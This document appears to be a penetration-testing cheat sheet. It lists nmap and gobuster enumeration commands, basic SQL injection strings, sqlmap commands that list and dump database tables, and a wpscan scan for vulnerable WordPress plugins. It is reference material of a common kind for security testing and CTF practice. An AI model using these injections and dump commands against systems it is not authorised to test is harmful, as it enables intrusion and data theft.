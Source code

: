 # Enumeration 

## nmap

Quick scan
```bash
nmap <ip> --top-ports 30
```

Default scan
```bash
nmap <ip> -sV -sC
```

Detailed scan
```bash
nmap <ip> -p-
```

## Directory enumeration
```
gobuster dir -u <url> -w <wordlist>
```

## Domain enumeration
```
gobuster dns -d <domain> -w <wordlist>
```

## Vhost enumeration

```
gobuster vhost -u <url> --apend-domain -w <wordlist>
```

[ffuf scans much faster using HOST header](http://ffuf.me/sub/vhost)

## SQLInjection
Basic injections to test for strings:
```
bla' or 1=1; --
bla" or 1=1; --
bla' or 1=1; #
bla" or 1=1; #
```

Use sqlmap the following way if the string is closed via `"` ([details](https://github.com/sqlmapproject/sqlmap/wiki/Usage#custom-injection-payload))
```
sqlmap http://host.de/?para=anything --prefix'"'
```

Use sqlmap by defining raw request (e.g. raw http in request.req):
```
sqlmap -r request.req -p <parameter>
```

sqlmap enumeration after successful injection:
```bash
# show all databases
sqlmap <url> -p <parameter> --dbs
# show all tables in database
sqlmap <url> -p <parameter> -D <database> --tables
# dump table
sqlmap <url> -p <parameter> -D <database> -T <table> --dump
```

## Wordpress
Use `wp-scan` to enumerate WordPress sites (use [api-token](https://wpscan.com/) to list vulnerabilities of found wp version/plugins).
 ```bash
 # enumerate vulnerable plugins (aggressive checks)
wp-scan --url <url> --enumerate vp --plugins-detection aggressive
 ```